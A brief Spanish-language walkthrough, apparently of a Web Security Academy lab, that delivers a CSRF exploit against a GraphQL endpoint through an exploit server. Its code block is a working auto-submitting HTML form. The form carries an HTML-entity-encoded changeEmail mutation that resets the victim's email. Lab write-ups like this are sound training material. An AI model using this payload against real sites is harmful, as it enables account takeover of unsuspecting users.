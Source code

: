 He modificado el `payload` manualmente para que tenga un `mejor desempeño`. Lo siguiente que debemos hacer es dirigirnos al `Exploit server`, pegamos el `payload` y pulsamos sobre `Deliver exploit to victim`. Debemos tener en cuenta que, para que funcione el `exploit`, debemos usar un `correo diferente al nuestro` en el `payload` porque, de lo contrario, no funcionará. Esto se debe a que `dos usuarios no pueden tener el mismo correo electrónico`

```
<html>
  <body>
    <form action="https://0aac00b60484d00881e74d80000b00af.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value="&#x6d;&#x75;&#x74;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x20;&#x63;&#x68;&#x61;&#x6e;&#x67;&#x65;&#x45;&#x6d;&#x61;&#x69;&#x6c;&#x28;&#x24;&#x69;&#x6e;&#x70;&#x75;&#x74;&#x3a;&#x20;&#x43;&#x68;&#x61;&#x6e;&#x67;&#x65;&#x45;&#x6d;&#x61;&#x69;&#x6c;&#x49;&#x6e;&#x70;&#x75;&#x74;&#x21;&#x29;&#x20;&#x7b;&#x63;&#x68;&#x61;&#x6e;&#x67;&#x65;&#x45;&#x6d;&#x61;&#x69;&#x6c;&#x28;&#x69;&#x6e;&#x70;&#x75;&#x74;&#x3a;&#x20;&#x24;&#x69;&#x6e;&#x70;&#x75;&#x74;&#x29;&#x20;&#x7b;&#x65;&#x6d;&#x61;&#x69;&#x6c;&#x7d;&#x7d;">
      <input type="hidden" name="operationName" value="changeEmail">
      <input type="hidden" name="variables" value="&#x7b;&#x22;&#x69;&#x6e;&#x70;&#x75;&#x74;&#x22;&#x3a;&#x20;&#x7b;&#x22;&#x65;&#x6d;&#x61;&#x69;&#x6c;&#x22;&#x3a;&#x20;&#x22;&#x50;&#x49;&#x54;&#x4f;&#x40;&#x67;&#x6d;&#x61;&#x69;&#x6c;&#x2e;&#x63;&#x6f;&#x6d;&#x22;&#x7d;&#x7d;">
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>
```

